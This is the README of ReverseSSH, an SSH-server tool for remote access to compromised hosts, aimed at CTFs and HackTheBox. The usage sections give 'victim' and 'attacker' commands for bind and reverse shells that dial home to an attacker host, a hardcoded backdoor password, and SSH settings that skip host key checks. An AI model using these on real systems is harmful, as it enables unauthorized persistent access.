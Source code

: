 # ReverseSSH

**A statically-linked ssh server with a reverse connection feature for simple yet powerful remote access. Most useful during HackTheBox challenges, CTFs or similar.**

**[Get the latest Release](https://github.com/Fahrj/reverse-ssh/releases)**

![Showcase](doc/showcase.gif)


## Features

Catching a reverse shell with _netcat_ is cool, sure, but who hasn't accidentally closed a reverse shell with a keyboard interrupt due to muscle memory?
Besides their fragility, such shells are also often missing convenience features such as fully interactive access, TAB-completion or history.

Instead you can go the way to simply deploy a **lightweight ssh server** (<1.5MB) onto the target and use additional commodities such as **file transfer** and **port forwarding**!

ReverseSSH tries to bridge the gap between initial foothold on a target and full local privilege escalation.
Its main strengths are the following:

* **Fully interactive shell access** (A fully interactive powershell on windows relies on the [Windows Pseudo Console ConPTY](https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/) and thus requires at least `Win10 Build 17763`. Before that, it still works, but you only get a somewhat interactive, generic reverse shell.)
* **File transfer via sftp**
* **Local / remote / dynamic port forwarding**
* Supports **Unix** and **Windows** operating systems


## Requirements

Simply executing the provided binaries only relies on [golang system requirements](https://github.com/golang/go/wiki/MinimumRequirements#operating-systems).

In short:

* **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

```shell
reverseSSH v1.0.0-alpha  Copyright (C) 2021  Ferdinor <ferdinor@mailbox.org>

Usage: reverse-ssh [options] [<user>@]<target>

Examples:
  Bind:
        reverse-ssh
        reverse-ssh -v -l :4444
  Reverse:
        reverse-ssh -p 31337 192.168.0.1
        reverse-ssh -v -b 0 kali@192.168.0.2

Options:
        -s, Shell to use for incoming connections, e.g. /bin/bash; no effect for windows (default: /bin/bash)
        -l, Bind scenario only: listen at this address:port (default: :31337)
        -p, Reverse scenario only: ssh port at home (default: 22)
        -b, Reverse scenario only: bind to this port after dialling home (default: 8888)
        -v, Emit log output

<target>
        Optional target which enables the reverse scenario. Can be prependend with
        <user>@ to authenticate as a different user than 'reverse' while dialling home.

Credentials:
        Accepting all incoming connections from any user with either of the following:
         * Password "letmeinbrudipls"
         * PubKey   "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlbJwr+ueQ0gojy4QWr2sUWcNC/Y9eV9RdY3PLO7Bk/ Brudi"
```

Once `reverse-ssh` is running, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```shell
# Simple, interactive shell access
$ssh -p <RPORT> <RHOST>

# Full-fledged file transfers
$sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy
$ssh -p <RPORT> -D 9050 <RHOST>
```

For even more convenience, add the following to your `~/.ssh/config`, copy the [ssh private key](id_reverse-ssh.pub) to `~/.ssh/` and simply call `ssh target` or `sftp target` afterwards:

```shell
Host target
        Hostname 127.0.0.1
        Port 8888
        IdentityFile ~/.ssh/id_reverse-ssh
        IdentitiesOnly yes
        StrictHostKeyChecking no
        UserKnownHostsFile /dev/null
```

### Simple bind shell scenario

```shell
# Victim
$./reverse-ssh

# Attacker (default password: letmeinbrudipls)
$ssh -p 31337 <LHOST>
```

### Simple reverse shell scenario

```shell
# On attacker (get ready to catch the incoming request; can be omitted if you already have an ssh daemon running)
attacker$./reverse-ssh -l :<LPORT>

# On victim
victim$./reverse-ssh -p <LPORT> <LHOST>
# or in case of another ssh daemon listening at port 22
victim$./reverse-ssh <USER>@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ssh -p 8888 127.0.0.1
# or with ssh config from above
attacker$ssh target
```

In the end it's plain ssh, so you could catch the remote port forwarding call coming from the victim's machine with your openssh daemon listening on port 22.
Just prepend `<USER>@` and provide the password once asked to do so.
Dialling home currently is password only, because I didn't feel like baking a private key in there as well yet...


## Build instructions

Make sure to install the above requirements such as golang in a matching version and set it up correctly.
Afterwards, you can compile with `make`, which will create static binaries in `bin`.
Use `make compressed` to pack the binaries with upx to further reduce their size.

```shell
$make

# or to additionally created binaries packed with upx
$make compressed
```

You can also specify a personalized password (`RS_PASS`) or authorized key (`RS_PUB`) when compiling:

```shell
$ssh-keygen -t ed25519 -f id_reverse-ssh

$RS_PASS="secret" RS_PUB="$(cat id_reverse-ssh.pub)" make compressed
```

## Contribute

Is a mind-blowing feature missing? Anything not working as intended?

**Create an issue or pull request!**